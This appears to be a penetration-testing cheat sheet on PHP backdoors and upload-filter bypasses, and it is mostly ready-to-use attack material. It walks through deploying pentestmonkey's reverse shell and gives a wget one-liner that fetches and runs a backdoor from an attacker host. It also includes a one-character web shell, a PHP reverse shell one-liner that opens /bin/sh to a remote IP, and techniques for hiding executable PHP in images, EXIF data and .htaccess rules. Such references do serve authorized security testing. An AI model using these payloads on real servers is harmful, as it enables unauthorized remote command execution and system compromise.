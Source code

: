 security stuff	Shells / Reverse Shells	php
Backdoor Shells
php-reverse-shell
tiniest web shell
p0wny shell
one-liner
image upload vulnerabilities
Resources & More
Backdoor Shells
php-reverse-shell
credit: pentestmonkey: php-reverse-shell.php

# download the repository
git clone https://github.com/pentestmonkey/php-reverse-shell.git

# modify the source so it uses a listener's IP of choice
cd php-reverse-shell
sed -i 's/127.0.0.1/IPADDR/' php-reverse-shell.php

# now the file is ready to be uploaded/downloaded onto the target
# one method is to serve the backdoor from the attacking machine via python's builtin webserver: 
python3 -m http.server
# or
python -m SimpleHTTPServer

# then at the target, download and execute the backdoor
# this one-liner can be used to download the php backdoor and execute it: 
wget 192.168.1.14:/backdoor.php -O /tmp/backdoor.php && php -f /tmp/backdoor.php
tiniest web shell
credit: tiniest web shell ever: 1.php

<pre> <?=`$_GET[1]`?>
save this snippet as 1.php and upload it to the webserver. Pass system commands to the variable 1 in the URL as so: http://192.168.1.14/1.php?1=id

p0wny shell
credit: p0wny shell: shell.php

just upload the file to to the server and visit the file’s URL for a complete shell
one-liner
This php one-liner assumes that the TCP connection uses file descriptor 3:
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
image upload vulnerabilities
bypass content-type filtering and extension checks:
try uploading a file.php, intercepting the request and changing the MIME type (i.e. image/gif image/png image/jpg image/jpeg)
try changing the extension to .PHP instead of .php (lowercase vs uppercase)
try appending additional extensions: ..jpg.php or .php.jpg or .php.foo
try tiggering the NULL byte: .php%00 or .php%00.jpg (also try: .php%00?)
try uploading an image with embedded php: (depends solely on the ability to write to the file: .htaccess)
Add the following to the .htaccess file:
AddType application/x-httpd-php .jpg or AddType application/x-httpd-php5 .jpg

Append some php code to a valid image file:
echo '<?php mail("root@localhost", "test" "mic check 1..2..1..2");' >> image.jpg

In some cases, it may be necessary for the PHP code to prefix the image: (i.e. when trying double extensions)
( echo -n '<?php header("Content-Type: image/jpg"); mail("root@localhost", "test", "mic check..1..2..1..2");?>'; cat original_image.png ) >> image.php.jpg

Upload the file and visit the image’s URL. The image will display and the php code will also execute.
Try also embedding the php code somewhere else in the image (i.e. the EXIF data)
# delete extra headers
jhead -purejpg file.jpg
# edit EXIF data:
jhead -ce file.jpg
# paste your php code in one line: 
<?=$_GET[0]($_POST[1]);?> 
It’s quickest to use curl to execute the script: curl -i -X POST "http://127.0.0.1/phppng.png?0=shell_exec" -d "1=id"
